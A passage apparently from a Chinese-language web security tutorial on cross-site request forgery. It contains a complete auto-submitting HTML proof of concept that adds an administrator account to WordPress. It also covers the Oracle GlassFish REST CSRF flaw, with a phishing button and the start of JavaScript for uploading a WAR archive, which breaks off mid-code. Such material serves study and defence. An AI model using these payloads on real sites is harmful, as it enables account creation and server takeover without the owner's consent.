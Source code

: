 ```html
</html>
```

另一个测试用例时添加某个具有管理员权限的用户，测试用例为 :

```html
<html>
  <body onload="javascript:document.forms[0].submit()">
    <h2>CSRF Exploit to add Administrator</h2>
    <form
      method="POST"
      name="form0"
      action="http://<wordpress_ip>:80/wp-admin/user-new.php"
    >
      <input type="hidden" name="action" value="createuser" />
      <input
        type="hidden"
        name="_wpnonce_create-user"
        value="<sniffed_value>"
      />
      <input
        type="hidden"
        name="_wp_http_referer"
        value="%2Fwordpress%2Fwp-admin%2Fuser-new.php"
      />
      <input type="hidden" name="user_login" value="admin2" />
      <input type="hidden" name="email" value="admin2@admin.com" />
      <input type="hidden" name="first_name" value="admin2@admin.com" />
      <input type="hidden" name="last_name" value="" />
      <input type="hidden" name="url" value="" />
      <input type="hidden" name="pass1" value="password" />
      <input type="hidden" name="pass2" value="password" />
      <input type="hidden" name="role" value="administrator" />
      <input type="hidden" name="createuser" value="Add+New+User+" />
    </form>
  </body>
</html>
```

## Oracle GlassFish Server - REST Cross-Site Request Forgery

该漏洞是由 Security-Assessment.com 发现的，Oracle GlassFish 服务器的 REST 接口可以被 CSRF 请求攻击，譬如其可以允许普通用户任意上传 WAR 包，并且可以控制在服务端运行从而导致窃取其他运行应用的信息。关于具体的攻击复盘可以参考[这里](http://blog.kotowicz.net/2011/04/how-to-upload-arbitrary-file-contents.html)。其攻击手段是首先在钓鱼站点上设置如下按钮 :

```
<button id="upload" onclick="start()" type="button">Upload WAR Archive</button>
```

然后添加如下脚本 :

```js
var logUrl = 'http://glassfishserver/management/domain/applications/application';

function fileUpload(fileData, fileName) {
    var fileSize = fileData.length,
      boundary = "---------------------------270883142628617",
      uri = logUrl,
      xhr = new XMLHttpRequest();

    var additionalFields = {
          asyncreplication: "true",
          availabilityenabled: "false",
          contextroot: "",
        createtables: "true",
```